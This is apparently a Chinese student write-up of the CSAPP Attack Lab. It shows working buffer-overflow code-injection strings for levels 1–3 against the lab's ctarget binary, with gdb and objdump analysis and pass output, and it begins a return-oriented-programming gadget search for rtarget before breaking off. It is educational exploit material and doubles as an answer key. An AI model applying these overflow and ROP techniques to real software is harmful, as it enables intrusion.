 Lab 3: Attack Lab
=================

0x01. 实验介绍
--------------
``attack lab`` 包含一对定制的x86-64二进制可执行目标文件，每个文件都存在着缓冲区溢出（buffer overflow）的程序错误（bug）。
实验中我们就会利用这些bug，通过输入特定的字符串，来达到缓冲区攻击的目的。
实验包含两个目标文件，一个用于代码注入攻击（code injection attack），另一个用于返回导向编程攻击（return-oriented programming attack）。
通过此实验，我们可以学习到：

* 当程序本身缺乏缓冲区溢出的防护时，攻击者如何利用此安全漏洞实现对程序的控制。
* 如何写出更加安全的代码，以及如何利用编译器和操作系统的相关特性保证代码的安全性。
* 对x86-64汇编代码的栈和传参机制的更深理解。
* 对x86-64汇编代码编码的更深理解。
* ``GDB`` 和 ``OBJDUMP`` 等调试工具的熟练使用。

总而言之，结合 ``CSAPP:3e`` 3.10.3和3.10.4节的书本内容，完成此实验，我们可以获得如果利用网络服务器和操作系统中的安全漏洞，实现攻击的第一手经验。

0x02. 实验环境搭建
------------------
实验环境的搭建同之前的实验一致，这里不再赘述。
实验的源代码可通过以下命令下载解压：

.. code-block:: console

    $ wget http://csapp.cs.cmu.edu/3e/target1.tar
    $ tar xvf target1.tar

进入实验目录，可以看到实验包含的文件：

.. code-block:: console

    $ ls
    $ cookie.txt  ctarget  farm.c  hex2raw  README.txt  rtarget

``README.txt`` 实验的简单介绍。
``ctarget`` 是用于代码注入攻击的可执行文件。
``rtarget`` 是用于返回导向编程的可执行文件。
``cookie.txt`` 是实验攻击者用作验证的8位数字的十六进制数。
``farm.c`` 是用作返回导向编程攻击中可选用的函数的C实现集合。
``hex2raw`` 是将我们输入的字符串转换成相应的缓冲区攻击字符串。

0x03. 攻击步骤及思路说明
----------------------

实验准备
^^^^^^^^^^^^
在开始攻击之前，我们先对实验进行基本的了解。
可执行文件 ``ctarget`` 和 ``rtarget`` 都是通过 ``getbuf`` 函数从标准输入中读取字符串。
从 ``getbuf`` 的函数定义可以看到， ``getbuf`` 通过调用 ``Gets`` 函数，将输入的字符串存在数组 ``buf`` 里，数组 ``buf`` 的大小则是由宏 ``BUFFER_SIZE`` 定义。
其中 ``Gets`` 函数的功能类似于 ``libc`` 标准库中的 ``gets`` 函数，从标准输入中读取字符串，然后将其存在特定位置。
无论是我们自定义的 ``Gets()`` 函数，还是 ``libc`` 中的 ``gets`` 函数，都无法判断存储字符串的缓存是否放得下读入的字符串。
两个函数只是简单地将字符串从缓存起始位置开始拷贝，拷贝的过程很有可能出现数组越界，对超出数组的部分进行写操作。我们可以利用这点，来完成我们设定的攻击。

.. code-block:: c

    unsigned getbuf()
    {
        char buf[BUFFER_SIZE];
        Gets(buf);
        return 1;
    }


我们先简单运行一下 ``ctarget`` 程序。注意，在我们的私有的Linux环境中，运行 ``ctarget`` 需加上 ``-q`` 参数（不发送结果到CMU的评分服务器）方可正常运行。

.. code-block:: console

    $ ./ctarget -q
    Cookie: 0x59b997fa
    Type string:hahaha
    No exploit.  Getbuf returned 0x1
    Normal return
    $ ./ctarget -q
    Cookie: 0x59b997fa
    Type string:this is just a test before doing the lab. I'm writing this nonsense here just to trigger the out-of-bound behavior.
    Ouch!: You caused a segmentation fault!
    Better luck next time
    FAIL: Would have posted the following:
            user id bovik
            course  15213-f15
            lab     attacklab
            result  1:FAIL:0xffffffff:ctarget:0:74 68 69 73 20 69 73 20 6A 75 73 74 20 61 20 74 65 73 74 20 62 65 66 6F 72 65 20 64 6F 69 6E 67 20 74 68 65 20 6C 61 62 2E 20 49 27 6D 20 77 72 69 74 69 6E 67 20 74 68 69 73 20 6E 6F 6E 73 65 6E 73 65 20 68 65 72 65 20 6A 75 73 74 20 74 6F 20 74 72 69 67 67 65 72 20 74 68 65 20 6F 75 74 2D 6F 66 2D 62 6F 75 6E 64 20 62 65 68 61 76 69 6F 72 2E

可以看到，当我们输入的字符串长度较小（小于 ``BUFFER_SIZE`` ）时，运行 ``ctarget`` 时 ``Getbuf``函数正常返回1，没有发生数组越界。相反，如果字符串长度过长，发生字符串数组越界，就会导致程序执行异常，触发段错误（segmentation fault）。

关于输入的字符串，还需要注意的是，我们在标准输入中输入的字符串都是ASCII码表示的，要想在实际的缓存中表示成相应所需要的字符值，还要通过 ``hex2raw`` 来完成相应的转换。
由此，我们的攻击字符串在输入到 ``ctarget`` 或 ``rtarget`` 时，还要经过 ``hex2raw`` 的转换：

.. code-block:: console

    $ ./hex2raw < test1.txt | ./ctarget

关于 ``hex2raw`` 的具体使用方法，可参考 `官网writeup <http://csapp.cs.cmu.edu/3e/attacklab.pdf>`_ 中的附录A及其相关说明，这里不再赘述。
至此，实验的相关准备已经足够了，可以开始我们的攻击之旅。


第一部分：代码注入攻击
^^^^^^^^^^^^^^^^^^^^^

在第一部分中，我们将用构建的字符串攻击 ``ctarget`` 。 
``ctarget`` 可执行程序有两个特点：

* 每次运行时栈的位置保持不变
* 栈上的数据可被执行
我们将利用以上特点，输入特定的字符串来达到我们实验的目的。

Level 1
''''''''

**实验说明：**

在Level 1中，我们不会注入新代码，只是通过输入的字符串将程序重定向到另一个已有的函数执行。
在 ``ctarget`` 中， 函数 ``test`` 调用 ``getbuf`` 。 当调用完成后， 函数 ``test`` 会继续执行接下来的语句，即调用 ``printf`` 打印相应信息。

.. code-block:: c

    void test()
    {
        int val;
        val = getbuf();
        printf("No exploit. Getbuf returned 0x%x\n", val);
    }

在Level 1中，我们想要改变上述的执行顺序。当函数 ``getbuf`` 执行返回语句时，我们想要让 ``ctarget`` 执行函数 ``touch1``， 而不是之前的函数 ``printf``。
函数 ``touch1`` 的定义如下：

.. code-block:: c

    void touch1()
    {
        vlevel = 1;     /* Part of validation protocol */
        printf("Touch1!: You called touch1()\n");
        validate(1);
        exit(0);
    }

**攻击思路：**

了解了实验的内容，我们就可以开始我们Level 1的攻击。在攻击之前，我们可以用以下命令对 ``ctarget`` 进行反汇编，并将其保存在 ``ctarget.txt`` 中。

.. code-block:: console

    $ objdump -d ctarget | tee ctarget.txt

查看 ``ctarget.txt`` ，可以发现函数调用栈是 ``main --> stable_launch --> launch --> test --> getbuf --> Gets`` 。
想要改变函数 ``test`` 的执行流程，我们先看 ``test`` 的汇编代码：

.. code-block:: asm

    0000000000401968 <test>:
        401968:       48 83 ec 08             sub    $0x8,%rsp
        40196c:       b8 00 00 00 00          mov    $0x0,%eax
        401971:       e8 32 fe ff ff          callq  4017a8 <getbuf>
        401976:       89 c2                   mov    %eax,%edx
        401978:       be 88 31 40 00          mov    $0x403188,%esi
        40197d:       bf 01 00 00 00          mov    $0x1,%edi
        401982:       b8 00 00 00 00          mov    $0x0,%eax
        401987:       e8 64 f4 ff ff          callq  400df0 <__printf_chk@plt>
        40198c:       48 83 c4 08             add    $0x8,%rsp
        401990:       c3                      retq
        401991:       90                      nop
        401992:       90                      nop
        401993:       90                      nop
        401994:       90                      nop
        401995:       90                      nop
        401996:       90                      nop
        401997:       90                      nop
        401998:       90                      nop
        401999:       90                      nop
        40199a:       90                      nop
        40199b:       90                      nop
        40199c:       90                      nop
        40199d:       90                      nop
        40199e:       90                      nop
        40199f:       90                      nop

由汇编代码可以看出， ``test`` 在调用执行完 ``getbuf`` 函数后，下一条命令应该执行的是位于 ``0x401976`` 处的汇编代码，我们要做的，即是通过输入的字符串修改这个值。
再具体看一下函数 ``getbuf`` 以及 ``getbuf`` 调用的函数 ``Gets`` 的汇编代码：

.. code-block:: asm

    00000000004017a8 <getbuf>:
        4017a8:       48 83 ec 28             sub    $0x28,%rsp
        4017ac:       48 89 e7                mov    %rsp,%rdi ; 将栈顶作为参数传入Gets
        4017af:       e8 8c 02 00 00          callq  401a40 <Gets>
        4017b4:       b8 01 00 00 00          mov    $0x1,%eax
        4017b9:       48 83 c4 28             add    $0x28,%rsp
        4017bd:       c3                      retq
        4017be:       90                      nop
        4017bf:       90                      nop

    0000000000401a40 <Gets>:
        401a40:       41 54                   push   %r12
        401a42:       55                      push   %rbp
        401a43:       53                      push   %rbx
        401a44:       49 89 fc                mov    %rdi,%r12
        401a47:       c7 05 b3 36 20 00 00    movl   $0x0,0x2036b3(%rip)        # 605104 <gets_cnt>
        401a4e:       00 00 00
        401a51:       48 89 fb                mov    %rdi,%rbx
        401a54:       eb 11                   jmp    401a67 <Gets+0x27>
        401a56:       48 8d 6b 01             lea    0x1(%rbx),%rbp ; 读取输入的值，依次将值存在getbuf栈顶开始位置
        401a5a:       88 03                   mov    %al,(%rbx)
        401a5c:       0f b6 f8                movzbl %al,%edi
        401a5f:       e8 3c ff ff ff          callq  4019a0 <save_char>
        401a64:       48 89 eb                mov    %rbp,%rbx
        401a67:       48 8b 3d 62 2a 20 00    mov    0x202a62(%rip),%rdi        # 6044d0 <infile>
        401a6e:       e8 4d f3 ff ff          callq  400dc0 <_IO_getc@plt>
        401a73:       83 f8 ff                cmp    $0xffffffff,%eax
        401a76:       74 05                   je     401a7d <Gets+0x3d>
        401a78:       83 f8 0a                cmp    $0xa,%eax
        401a7b:       75 d9                   jne    401a56 <Gets+0x16>
        401a7d:       c6 03 00                movb   $0x0,(%rbx)
        401a80:       b8 00 00 00 00          mov    $0x0,%eax
        401a85:       e8 6e ff ff ff          callq  4019f8 <save_term>
        401a8a:       4c 89 e0                mov    %r12,%rax
        401a8d:       5b                      pop    %rbx
        401a8e:       5d                      pop    %rbp
        401a8f:       41 5c                   pop    %r12
        401a91:       c3                      retq

从以上汇编代码，我们可以看到函数 ``getbuf`` 开辟了40字节（0x28）的栈空间，并把栈顶传给函数 ``Gets`` ，函数 ``Gets`` 将输入的字符串从栈顶位置开始保存。对应的函数调用如图所示：

.. image:: ./../_images/ctarget_lv1.png


所以，如果我们想要 ``test`` 函数重定向执行函数 ``touch1`` ，只需将图中的地址返回值改为函数 ``touch1`` 的入口地址。
即构建一个长度为48字节的字符串，其中40~47字节的字符串为函数 ``touch1`` 的地址。需要注意的是 ``touch1`` 的地址构建的攻击字符串应按照小端序（little endian）的顺序放置在内存中。
将构建的字符串通过 ``hex2raw`` 程序进行转换，传给 ``ctarget`` 程序执行，Level 1攻击成功！

.. code-block:: console

    $ cat ctarget_lv1.txt
    00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 c0 17 40 00 00 00 00 00
    $ ./hex2raw < ctarget_lv1.txt | ./ctarget -q
    Cookie: 0x59b997fa
    Type string:Touch1!: You called touch1()
    Valid solution for level 1 with target ctarget
    PASS: Would have posted the following:
            user id bovik
            course  15213-f15
            lab     attacklab
            result  1:PASS:0xffffffff:ctarget:1:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 C0 17 40 00 00 00 00 00


Level 2
''''''''

**实验说明：**

在Level 2中，我们要在输入的攻击字符串中包含一小段代码，将函数 ``test`` 的执行流程在调用完函数 ``getbuf`` 后重定向到函数 ``touch2``。
``touch2`` 的C代码如下所示：

.. code-block:: c

    void touch2(unsigned val)
    {
        vlevel = 2;     /* Part of validation protocol */
        if(val == cookie)
        {
            printf("Touch2!: You called touch2(0x%.8x)\n", val);
            validate(2);
        }
        else
        {
            printf("Misfire: You called touch2(0x%.8x)\n", val);
            fail(2);
        }
        exit(0);
    }

**攻击思路：**

由上述 ``touch2`` 函数的代码可以看出，Level2与Level1的不同在于，我们还要将cookie值作为参数传给重定向的函数 ``touch2``。
首先查看一下 ``touch2`` 的汇编代码。 

.. code-block:: asm

    00000000004017ec <touch2>:
        4017ec:       48 83 ec 08             sub    $0x8,%rsp
        4017f0:       89 fa                   mov    %edi,%edx
        4017f2:       c7 05 e0 2c 20 00 02    movl   $0x2,0x202ce0(%rip)        # 6044dc <vlevel>
        4017f9:       00 00 00
        4017fc:       3b 3d e2 2c 20 00       cmp    0x202ce2(%rip),%edi        # 6044e4 <cookie>
        401802:       75 20                   jne    401824 <touch2+0x38>
        401804:       be e8 30 40 00          mov    $0x4030e8,%esi
        401809:       bf 01 00 00 00          mov    $0x1,%edi
        40180e:       b8 00 00 00 00          mov    $0x0,%eax
        401813:       e8 d8 f5 ff ff          callq  400df0 <__printf_chk@plt>
        401818:       bf 02 00 00 00          mov    $0x2,%edi
        40181d:       e8 6b 04 00 00          callq  401c8d <validate>
        401822:       eb 1e                   jmp    401842 <touch2+0x56>
        401824:       be 10 31 40 00          mov    $0x403110,%esi
        401829:       bf 01 00 00 00          mov    $0x1,%edi
        40182e:       b8 00 00 00 00          mov    $0x0,%eax
        401833:       e8 b8 f5 ff ff          callq  400df0 <__printf_chk@plt>
        401838:       bf 02 00 00 00          mov    $0x2,%edi
        40183d:       e8 0d 05 00 00          callq  401d4f <fail>
        401842:       bf 00 00 00 00          mov    $0x0,%edi
        401847:       e8 f4 f5 ff ff          callq  400e40 <exit@plt>
  
``touch2`` 在 ``0x4017fc`` 处比较寄存器 ``%rdi`` 和cookie的值的大小。若相等，则从 ``0x401804`` 处执行；若不等，则从 ``0x401824`` 处执行。
两处不同执行路径的代码所打印的内容也不同，如下调试信息所示：

.. code-block:: console

    (gdb) x/s 0x4030e8
    0x4030e8:       "Touch2!: You called touch2(0x%.8x)\n"
    (gdb) x/s 0x403110
    0x403110:       "Misfire: You called touch2(0x%.8x)\n"

由此可见，Level2的攻击关键在于在重定向到函数 ``touch2`` 之前，将寄存器 ``%rdi`` 的值设置为cookie值。我们需要在写入的字符串里构建对应的汇编代码的编码。
用汇编语言实现即为 ``mov $0x59b997fa, %rdi`` 。 对应的指令编码可通过下述流程实现：

.. code-block:: console

    $ cat lv2.S # 先将 “mov $0x50b997fa, %rdi” 保存到lv2.S中
    mov $0x59b997fa, %rdi
    $ gcc -c lv2.S # 生成目标文件
    $ objdump -d lv2.o # 对生成的目标文件反汇编
    lv2.o:     file format elf64-x86-64


    Disassembly of section .text:

    0000000000000000 <.text>:
        0:   48 c7 c7 fa 97 b9 59    mov    $0x59b997fa,%rdi


由上述可知，汇编指令 ``mov $0x59b997fa, %rdi`` 的二进制编码为 ``48 c7 c7 fa 97 b9 59``。
构建好了设置寄存器 ``%rdi`` 的编码，我们还需将 ``test`` 执行完 ``getbuf`` 后的返回地址设置为汇编指令所在的位置。这里就利用到上述提及的 ``rtarget`` 运行栈地址不变和栈上可执行代码的特性。
``gdb`` 调试 ``ctarget`` ， 找到 ``getbuf`` 执行时的栈顶位置：

.. code-block:: console

    $ gdb ./ctarget
    (gdb) b getbuf
    Breakpoint 1 at 0x4017a8: file buf.c, line 12.
    (gdb) run -q
    Starting program: /home/jiewan01/CS4_Challenge/csapp_lab/target1/ctarget -q
    Cookie: 0x59b997fa

    Breakpoint 1, getbuf () at buf.c:12
    12      buf.c: No such file or directory.
    (gdb) stepi
    14      in buf.c
    (gdb) p/x $rsp
    $1 = 0x5561dc78

由此，我们可以确定我们想要的攻击字符串的形式。字符串的0~7字节（ ``getbuf`` 函数栈顶位置 ）存放如下汇编代码的二进制编码。40~47字节存放栈顶 ``%rsp`` 的值， ``test`` 执行完 ``getbuf`` 后将跳转到栈顶执行以下汇编指令。 48~55字节存放 ``touch2`` 函数的入口地址，这样在执行完栈顶的汇编代码（包含 ``ret`` ）指令后， ``test`` 将跳转到 ``touch2`` 函数继续执行。

.. code-block:: asm

    mov $0x59b997fa, %rdi
    ret

对应的函数栈如图所示：

.. image:: ./../_images/ctarget_lv2.PNG

用 ``hex2raw`` 程序将构建的字符串进行转换，传给 ``ctarget`` 程序执行，Level2攻击成功！

.. code-block:: console

    $ cat ctarget_lv2.txt
    48 c7 c7 fa 97 b9 59 c3  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  78 dc 61 55 00 00 00 00 ec 17 40 00 00 00 00 00
    $ ./hex2raw < ctarget_lv2.txt | ./ctarget -q
    Cookie: 0x59b997fa
    Type string:Touch2!: You called touch2(0x59b997fa)
    Valid solution for level 2 with target ctarget
    PASS: Would have posted the following:
            user id bovik
            course  15213-f15
            lab     attacklab
            result  1:PASS:0xffffffff:ctarget:2:48 C7 C7 FA 97 B9 59 C3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55 00 00 00 00 EC 17 40 00 00 00 00 00

Level 3
''''''''

**实验说明：**

Level 3的要求同Level 2基本一致，只不过在 ``test`` 重定向到函数 ``touch3`` 前传入字符串作为参数。
``touch3`` 的C代码如下所示：

.. code-block:: c

    void touch3(char *sval)
    {
        vlevel = 3;     /* Part of validation protocol */
        if (hexmatch(cookie, sval))
        {
            printf("Touch3!: You called touch3(\"%s\")\n", sval);
            validate(3);
        }
        else
        {
            printf("Misfire: You called touch3(\"%s\")\n", sval);
            fail(3);
        }
        exit(0);
    }

可以看到， ``touch3`` 调用 ``hexmatch`` 来比较cookie与输入字符串是否相等，对应 ``hexmatch`` 的C实现如下：

.. code-block:: c

    /* Compare string to hex representation of unsigned value */
    int hexmatch(unsigned val, char *sval)
    {
        char cbuf[110];
        /* Make position of check string unpredictable */
        char *s = cbuf + random() % 100;
        sprintf(s, "%.8x", val);
        return strncmp(sval, s, 9) == 0;
    }

``hexmatch`` 在栈上构建了长为110字节的字符串数组，并将 ``val`` 值作为字符串存储在 ``cbuf`` 随机位置。然后调用 ``strncmp`` 比较两个字符串是否相等。

**攻击思路：**

Level 3的攻击思路基本同Level 2一样，我们需要在重定向到 ``touch3`` 前，设置寄存器 ``%rdi`` 的值。Level 3中对应 ``%rdi`` 的值应为字符串 ``59b997fa`` （cookie的值去掉0x）的地址，因此我们需在栈上存放字符串，并将其地址传给 ``%rdi``。
即构建的汇编代码应如下所示：

.. code-block:: asm

    mov addr_of_string, %rdi ; addr_of_string should be the starting address for '59b997fa'
    ret

由Level 2中我们知道 ``getbuf`` 函数执行时的栈顶位置是 ``0x5561dc78``， 同Level 2一样，我们可将构建的攻击代码放在栈顶，对应栈上 ``%rsp + 8`` （ ``0x5561dc80`` ） 处存放字符串。
那对应汇编代码应为：

.. code-block:: asm

    mov $0x5561dc80, %rdi
    ret

按照以下步骤生成其二进制编码：

.. code-block:: console

    $ cat lv3.S
    mov $0x5561dc80, %rdi
    ret
    $ gcc -c lv3.S
    $ objdump -d lv3.o

    lv3.o:     file format elf64-x86-64


    Disassembly of section .text:

    0000000000000000 <.text>:
        0:   48 c7 c7 80 dc 61 55    mov    $0x5561dc80,%rdi
        7:   c3                      retq

根据 `ASCII表 <https://www.asciitable.com/>`_ 查找对应字符串 ``59b997fa`` 的ASCII码。
至此，我们可以构建出Level 3的攻击字符串，执行攻击：

.. code-block:: console

    $ cat ctarget_lv3.txt
    48 c7 c7 80 dc 61 55 c3  /* mov    $0x5561dc80,%rdi retq */
    35 39 62 39 39 37 66 61  /* string 59b997fa */
    00 00 00 00 00 00 00 00  /* junk */
    00 00 00 00 00 00 00 00  /* junk */
    00 00 00 00 00 00 00 00  /* junk */
    78 dc 61 55 00 00 00 00  /* return to execute exploit string */
    fa 18 40 00 00 00 00 00  /* return to execute touch3 */
    $ ./hex2raw < ctarget_lv3.txt | ./ctarget -q
    Cookie: 0x59b997fa
    Type string:Misfire: You called touch3("")
    FAIL: Would have posted the following:
            user id bovik
            course  15213-f15
            lab     attacklab
            result  1:FAIL:0xffffffff:ctarget:3:48 C7 C7 80 DC 61 55 C3 35 39 62 39 39 37 66 61 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55 00 00 00 00 FA 18 40 00 00 00 00 00

奇怪的是，结果显示我们调用了 ``touch3`` 函数，但是攻击失败了，说明传入的字符串和给定字符串不匹配。检查了一遍字符串的ASCII码表示和对应的地址没有问题，这时实验 ``writeup`` 里针对Level 3的一条建议引发了我的思考：

    When functions ``hexmatch`` and ``strncmp`` are called, they push data onto the stack, overwriting portions of memory that held the buffer used by ``getbuf``. As a result, you will need to be careful where you place the string representation of your cookie.

会不会是调用 ``hexmatch`` 和 ``strncmp`` 函数的过程中，栈上放置字符串的内存被覆盖了？
我们用 ``gdb`` 调试一下上述的过程，设置相应的函数断点：

.. code-block:: console

    $ gdb ./ctarget
    (gdb) b test
    (gdb) b touch3
    (gdb) b hexmatch
    (gdb) layout regs
    (gdb) run -q -i ctarget_lv3.raw

``ctarget_lv3.raw`` 是 ``hex2raw`` 生成的字符串， ``run -q -i ctarget_lv3.raw`` 运行程序，进行单步调试。 单步调试进入 ``touch3`` 函数后， 把字符串所在的内存位置设置成观察点 ``watch *0x5561dc80`` 。 
继续单步调试，发现在代码 ``0x401863`` 处观察点的内存值发生变化，说明我们构建的字符串确实被覆盖重写了。

.. code-block:: console


    (gdb) si

    Hardware watchpoint 4: *0x5561dc80

    Old value = 962738485
    New value = 783582208
    0x0000000000401868 in hexmatch (val=1505335290, sval=sval@entry=0x5561dc80 "") at visible.c:62

分析下代码，可以看到 ``0x401863`` 处代码所作的事情是将寄存器 ``%rax`` 中的值赋给 ``%rsp + 0x78`` 处，对应的地址恰巧是 ``0x5561dc80`` 。 
由此可见，我们构建的字符串的8~55字节的内容，都会在 ``touch3`` 后续的执行过程中，被其调用的其它函数栈的内容覆盖。所以为了避免此情况，我们应将字符串放置在构建的攻击字符串的最前方，也就是 ``getbuf`` 的栈顶位置。
重组攻击字符串，再次运行，Level 3攻击成功！

.. code-block:: console

    $ cat ctarget_lv3_new.txt
    35 39 62 39 39 37 66 61  /* string 59b997fa */
    48 c7 c7 78 dc 61 55 c3  /* mov    $0x5561dc78,%rdi retq */
    00 00 00 00 00 00 00 00  /* junk */
    00 00 00 00 00 00 00 00  /* junk */
    00 00 00 00 00 00 00 00  /* junk */
    80 dc 61 55 00 00 00 00  /* return to execute exploit string */
    fa 18 40 00 00 00 00 00  /* return to execute touch3 */
    $ ./hex2raw < ctarget_lv3_new.txt | ./ctarget -q
    Cookie: 0x59b997fa
    Type string:Touch3!: You called touch3("59b997fa")
    Valid solution for level 3 with target ctarget
    PASS: Would have posted the following:
            user id bovik
            course  15213-f15
            lab     attacklab
            result  1:PASS:0xffffffff:ctarget:3:35 39 62 39 39 37 66 61 48 C7 C7 78 DC 61 55 C3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 80 DC 61 55 00 00 00 00 FA 18 40 00 00 00 00 00

对应的函数调用如图所示：

.. image:: ./../_images/ctarget_lv3.PNG


第二部分：返回导向编程攻击
^^^^^^^^^^^^^^^^^^^^^^^^

在第二部分中，相比于 ``ctarget``， 我们使用代码注入的方式去攻击 ``rtarget`` 的难度剧增，原因有二：

* ``rtarget`` 使用了栈随机化的技术，即每次运行栈的地址都不相同，导致很难确定注入代码应存放的位置
* ``rtarget`` 将栈上的内存标记为不可执行（nonexecutable），也就意味着在栈上执行我们注入的攻击代码会导致段错误（segmentation fault）

接下来的两个实验，我们将使用新的攻击方式---返回导向编程攻击，来完成 ``rtarget`` 实验。 
返回导向编程攻击的方法是找寻当前程序中符合模式的字节流，然后通过组合排列这些字节流来构建相应的指令，完成攻击。这些字节流称之为攻击套件（gadget）。前面提到的模式一般指一条或多条指令后跟着一条 ``ret`` 指令，故称之为返回导向编程。
更详细的解释和说明可参考 `writeup <http://csapp.cs.cmu.edu/3e/attacklab.pdf>`_ 以及提及的论文。

Level 2
''''''''

**实验说明：**

实验的要求同 ``ctarget`` 的Level 2一致，只不过我们要从提供的攻击套件厂（gadget farm）找到我们能够使用的指令，攻击 ``rtarget`` 。
我们可以使用以下指令和寄存器类型， ``writeup`` 里都提供了相应的编码表格。

* movq
* popq
* ret
* nop
* %rax - %rdi

在攻击之前，我们可以用 ``objdump -d rtarget | tee rtarget.txt`` 对 ``rtarget`` 进行反汇编，并将其汇编代码保存在 ``rtarget.txt`` 中。
查看 ``rtarget.txt`` ， 可以看到在函数 ``start_farm`` 与 ``end_farm`` 中间有多个 ``setval_xxx`` 和 ``getval_xxx`` 等函数，我们将从这些函数中找到想要的攻击指令。

.. code-block:: console

    $ cat rtarget.txt
    ......
    0000000000401994 <start_farm>:
        401994:       b8 01 00 00 00          mov    $0x1,%eax
        401999:       c3                      retq

    000000000040199a <getval_142>:
        40199a:       b8 fb 78 90 90          mov    $0x909078fb,%eax
        40199f:       c3                      retq

    00000000004019a0 <addval_273>:
        4019a0:       8d 87 48 89 c7 c3       lea    -0x3c3876b8(%rdi),%eax
        4019a6:       c3                      retq
    ......
    0000000000401ab2 <end_farm>:
        401ab2:       b8 01 00 00 00          mov    $0x1,%eax
        401ab7:       c3                      retq
        401ab8:       90                      nop
        401ab9:       90                      nop
        401aba:       90                      nop
        401abb:       90                      nop
        401abc:       90                      nop
        401abd:       90                      nop
        401abe:       90                      nop
        401abf:       90                      nop


**攻击思路：**

在 ``ctarget`` 中的Level 2，我们通过将 ``touch2`` 执行完 ``getbuf`` 的下一条指令设置为我们在栈上注入代码的地址，来达到指令重定向以及给寄存器 ``%rdi`` 赋值为cookie的目的。
``rtarget`` 我们不能再这样做，因为其栈被设置为不可执行。那如何在重定向到 ``touch2`` 函数前将cookie值传给 ``%rdi`` 呢？
直接的方法是通过 ``popq`` 指令将栈上构建的cookie值弹出栈到寄存器中，再通过 ``mov`` 操作完成寄存器之间的赋值。
逐个查看 ``start_farm`` ~ ``end_farm`` 函数，对应在函数 ``addval_219`` 中，我们看到有字节流 ``58 90 c3`` ，其对应的汇编指令为:

.. code-block:: asm

    popq %rax
    nop
    ret

同理，在函数 ``setval_426`` 中，我们看到有字节流 ``48 89 c7 90 c3`` ，其对应的汇编指令为：

.. code-block:: asm

    movq %rax, %rdi
    nop
    ret

利用上述两个攻击套件，我们可按照如下图所示的方式构建我们的攻击字符串。

.. image:: ./../_images/rtarget_lv2.PNG

.. code-block:: console

